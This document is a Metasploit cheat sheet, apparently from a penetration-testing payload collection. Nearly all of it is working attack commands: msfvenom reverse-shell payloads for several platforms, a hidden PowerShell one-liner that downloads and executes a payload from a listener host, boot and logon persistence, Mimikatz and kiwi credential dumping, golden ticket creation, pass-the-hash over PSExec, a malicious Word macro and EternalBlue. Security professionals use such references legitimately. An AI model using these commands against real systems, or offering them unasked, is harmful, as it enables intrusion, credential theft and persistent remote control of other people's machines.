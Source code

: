 # Metasploit

## Summary

* [Installation](#installation)
* [Sessions](#sessions)
* [Background handler](#background-handler)
* [Meterpreter - Basic](#meterpreter---basic)
    * [Generate a meterpreter](#generate-a-meterpreter)
    * [Meterpreter Webdelivery](#meterpreter-webdelivery)
    * [Get System](#get-system)
    * [Persistence Startup](#persistence-startup)
    * [Network Monitoring](#network-monitoring)
    * [Portforward](#portforward)
    * [Upload / Download](#upload---download)
    * [Execute from Memory](#execute-from-memory)
    * [Mimikatz](#mimikatz)
    * [Pass the Hash - PSExec](#pass-the-hash---psexec)
* [Scripting Metasploit](#scripting-metasploit)
* [Multiple transports](#multiple-transports)
* [Best of - Exploits](#best-of---exploits)
* [References](#references)

## Installation

```powershell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

or docker

```powershell
sudo docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
```

## Sessions

```powershell
CTRL+Z   -> Session in Background
sessions -> List sessions
sessions -i session_number -> Interact with Session with id
sessions -u session_number -> Upgrade session to a meterpreter
sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false-> Upgrade session to a meterpreter

sessions -c cmd           -> Execute a command on several sessions
sessions -i 10-20 -c "id" -> Execute a command on several sessions
```

## Background handler

ExitOnSession : the handler will not exit if the meterpreter dies.

```powershell
screen -dRR
sudo msfconsole

use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false

generate -o /tmp/meterpreter.exe -f exe
to_handler

[ctrl+a] + [d]
```

## Meterpreter - Basic

### Generate a meterpreter

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery

Set up a Powershell web delivery listening on port 8080.

```powershell
use exploit/multi/script/web_delivery
set TARGET 2
set payload windows/x64/meterpreter/reverse_http
set LHOST 10.0.0.1
set LPORT 4444
run
```

```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```


### Get System

```powershell
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Persistence Startup

```powershell
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back

meterpreter > run persistence -U -p 4242
```

### Network Monitoring

```powershell
# list interfaces
run packetrecorder -li

# record interface n°1
run packetrecorder -i 1
```

### Portforward

```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

### Upload / Download

```powershell
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
```

### Execute from Memory

```powershell
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

### Mimikatz

```powershell
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```powershell
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

### Pass the Hash - PSExec

```powershell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
SMBDomain             WORKGROUP                                                          no        The Windows domain to use for authentication
SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        The password for the specified username
SMBUser               Lambda                                                             no        The username to authenticate as
```

## Scripting Metasploit

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`.
Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```powershell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 4646
set ExitOnSession false
exploit -j -z


use exploit/multi/fileformat/office_word_macro 
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

## Multiple transports

```powershell
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

Then, in AddTransports.ps1

```powershell
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

## Best of - Exploits

* MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
* MS08_67 - `exploit/windows/smb/ms08_067_netapi`

## References

* [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
* [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)